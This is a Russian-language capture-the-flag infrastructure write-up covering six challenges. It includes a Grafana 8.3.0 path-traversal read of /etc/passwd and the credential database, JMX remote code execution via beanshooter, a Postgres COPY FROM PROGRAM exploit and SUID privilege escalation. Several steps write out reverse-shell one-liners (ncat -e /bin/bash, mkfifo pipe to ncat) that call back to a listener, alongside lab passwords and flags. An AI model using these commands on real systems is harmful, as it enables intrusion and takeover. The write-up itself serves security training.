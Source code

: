 ## Infra WRITEUP

### 1. Welcome

Открыв файл pcap с помощью Wireshark, отфильтруем запросы по http методу.
В basic auth найдем флаг для аутентификации.

![](assets/welcome.jpg)

`deteact{fd6fb7c6db39ebd2142e6d1038464ed4}`

### 2. Monitoring

На странице после логина будет открыта grafana v8.3.0. В интернете найдем, что она уязвима к LFI.
На 80 порту к которому мы подключаемся висит ngnix, который преобразует полученный адрес. Обойдем проверку добавив #

`/public/plugins/welcome/#/../../../../../../../../../etc/passwd`

Скачаем базу данных с учетными данными grafana

`/var/lib/grafana/grafana.db`

В таблице найдем учетные данные, которые подойдут к ssh на 8222 порту

`deteact:Hfgblasjdhfaasdf`

Переключимся на root с помощью sudo su и найдем флаг.

`deteact{9168a423f80518af365cd2bc282c87a0}`

### 3. klevch-user

Сканируя сеть одним из доступных адресов будет 10.200.22.4.
По адресу 10.200.22.4 c помощью nmap найдем запущенные java rmi сервисы.

```
PORT      STATE SERVICE    VERSION
1099/tcp  open  java-rmi   Java RMI
| rmi-dumpregistry:
|   refObj
|      implements java.rmi.Remote, ICalc,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @0.0.0.0:64000
|             extends
|_              java.rmi.server.RemoteObject
9010/tcp  open  java-rmi   Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @0.0.0.0:9010
|             extends
|_              java.rmi.server.RemoteObject
33881/tcp open  tcpwrapped
64000/tcp open  java-rmi   Java RMI
```

Последующий анализ покажет, что по порту 9010 jmxrmi возможно удаленное выполнения кода, с помощью beans и tonka
Скачаем beanshooter и следующей командой получим reverse shell

```
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka exec 10.200.22.4 9010 "./ncat 172.31.0.4 5555 -e /bin/bash"
```

И на машине найдем user флаг.

### 4. klevch-root

Изучая файлы на машине, в bash history найдем учетные данные для mysql, однако на машине нет запущенного mysql сервера

`mysql -u developer -p mYL9h2rM`

Среди утилит, содержащих suid бит, увидим нестандартную /usr/bin/todo.

```
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/tudo
/bin/mount
/bin/umount
/bin/ping
/bin/su
```

Запустив ее, она попросит пароль и команду, которая будет исполнена от имени root.
Следующей командой прочитаем флаг

```
./tudo mYL9h2rM "cat /root/root.txt"
deteact{b08418aee8ab7c8449500bd81b360179}
```

### 5. DBmaster-user

На машине 10.200.22.2 найдем открытый порт 25432, на котором висит postgres
Подключимся к нему с помощью дефолтной пары user/pass с паролем postgres

`psql -h 10.200.22.2 -p 25432 -U postgres`

C помощью встроенного в postgres command exec получим reverse shell.
Пробуя различные способы, подошел этот

`COPY cmd_exec FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u 172.31.0.4 8000 >/tmp/f’;`

Сразу увидим первый флаг в файле user.txt

`deteact{d8caf73d44507e6c57c898bc647f4bc0}`


### 6. DBmaster-root

Изучив процессы, запущенные с именем root увидим mysql сервер. Перебрав к нему пароли, подойдет пара root:admin

![](assets/mysql.jpg)

Т.к процесс запущен от имени root можем прочитать флаг, или настроить sys_exec для получения reverse shell

`select LOAD_FILE ("/root/root.txt");`
